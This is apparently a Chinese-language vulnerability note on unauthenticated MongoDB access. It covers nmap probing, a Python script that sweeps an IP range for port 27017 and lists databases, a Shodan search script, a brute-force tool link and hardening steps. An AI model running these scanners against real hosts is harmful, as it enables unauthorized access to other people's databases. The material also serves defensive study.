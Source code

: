 MongoDB未授权访问
=================

一、漏洞简介
------------

MongoDB
默认直接连接，无须身份验证，如果当前机器可以公网访问，且不注意Mongodb
端口（默认
27017）的开放状态，那么Mongodb就会产生安全风险，被利用此配置漏洞，入侵数据库。

-   使用默认 mongod 命令启动 Mongodb

-   机器可以被公网访问

-   在公网上开放了 Mongodb 端口

-   数据库隐私泄露

-   数据库被清空

-   数据库运行缓慢

二、影响范围
------------

三、复现过程
------------

#### 1. 扫描探测

#### 2. 下载：

<http://nmap.org/svn/scripts/mongodb-info.nse>

    nmap -p 27017 --script mongodb-info <ip>

![](resource/MongoDB未授权访问/media/rId27.png)

    vim /etc/mongodb.conf
    dbpath = /data/
    logpath = /var/logs/mongodb.log
    ##port = 27017
    ##fork = true
    bind_ip = 0.0.0.0

    ./mongod –config mongodb.conf //启动mongodb加载配置mongodb.conf

##### 1.1 基础

-   <https://www.jianshu.com/p/8bf26effa737>

-   <http://www.runoob.com/mongodb/mongodb-tutorial.html>

-   <https://itbilu.com/database/mongo/E1tWQz4_e.html>

##### 1.2 批量扫描未授权

    import socket
    import sys
    import pymongo

    ipcons = []
    def Scanner(ip):
        global ipcons
        sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sk.settimeout(0.3)
        try:
            sk.connect((ip,27017))
            ipcons.append(ip)
            sk.close()
        except Exception:
            pass

    def ip2num(ip):
        ip=[int(x) for x in ip.split('.')]
        return ip[0] <<24 | ip[1]<<16 | ip[2]<<8 |ip[3]

    def num2ip(num):
        return '%s.%s.%s.%s' %( (num & 0xff000000) >>24,
                                    (num & 0x00ff0000) >>16,
                                    (num & 0x0000ff00) >>8,
                                    num & 0x000000ff )

    def get_ip(ip):
        start,end = [ip2num(x) for x in ip.split(' ') ]
        return [ num2ip(num) for num in range(start,end+1) if num & 0xff ]

    startIp = sys.argv[1]
    endIp = sys.argv[2]
    iplist = get_ip(sys.argv[1]+" "+sys.argv[2])
    for i in iplist:
        Scanner(i)

    def connMon(ip_addr):
        print ' Connect mongodb: ' + ip_addr + ':27017'
        try:
            conn = pymongo.MongoClient(ip_addr,27017,socketTimeoutMS=3000)
            dbname = conn.database_names()
            print "success"
        except Exception as e:
            print "error"

    print ipcons   
    for ipaddr in ipcons:
        connMon(ipaddr)
        print "================="

##### 1.3 shodan扫描脚本

    ##!/usr/bin/python
    ## -*- coding: UTF-8 -*-
    '''
    @Author：joy_nick
    @博客：http://byd.dropsec.xyz/
    '''
    import shodan
    import os
    iplist = []
    ip_list = []
    shodan_ip_list = []
    def shodanSearch(keywords):
        SHODAN_API_KEY = "your key"
        api = shodan.Shodan(SHODAN_API_KEY)
        total = 0
        try:
            results = api.search(keywords)
            total = int(results['total'])
            for result in results['matches']:
                ##iplist.append({"ip":result['ip_str'],"country":result['location']['country_name']})
                iplist.append(result['ip_str'])
                for i in range(len(iplist)):
                    ip_list = iplist[i].encode('utf-8')
                    shodan_ip_list.append(ip_list)
                    s = '\n'.join(shodan_ip_list)
                    with open('shodan_ip_list.txt','w') as output:
                        output.write(s)
        except shodan.APIError, e:
            print 'Error: %s' % e
    if __name__ == '__main__':
        shodanSearch('redis')

查询操作
![](resource/MongoDB未授权访问/media/rId34.png)

#### 2. 爆破脚本

<https://github.com/netxfly/x-crack>
![](resource/MongoDB未授权访问/media/rId37.png)

#### 4. 防范措施

**(1).新建管理账户开启MongoDB授权**新建终端\[参数默认可以不加，若有自定义参数，才要加上，下同\] mongod
\--port 27017 \--dbpath /data/db1

另起一个终端，运行下列命令

    mongo --port 27017

      use admin

      db.createUser(
        {
          user: "adminUser",
          pwd: "adminPass",
          roles: [ { role: "userAdminAnyDatabase", db: "admin" } ]
        }
      )

管理员创建成功，现在拥有了用户管理员 用户名:adminUser 密码:adminPass

![](resource/MongoDB未授权访问/media/rId39.png)

**(2).本地访问**bind 127.0.0.1 **(3).修改默认端口**修改默认的mongoDB端口(默认为: TCP 27017)为其他端口

**(4).禁用HTTP和REST端口**MongoDB自身带有一个HTTP服务和并支持REST接口。在2.6以后这些接口默认是关闭的。mongoDB默认会使用默认端口监听web服务，一般不需要通过web方式进行远程管理，建议禁用。修改配置文件或在启动的时候选择--nohttpinterface
参数nohttpinterface = false**(5).开启日志审计功能**审计功能可以用来记录用户对数据库的所有相关操作。这些记录可以让系统管理员在需要的时候分析数据库在什么时段发生了什么事情**(6).开启auth认证**

    /etc/mongodb.conf　　
    auth = true

其他:http://www.mottoin.com/10560
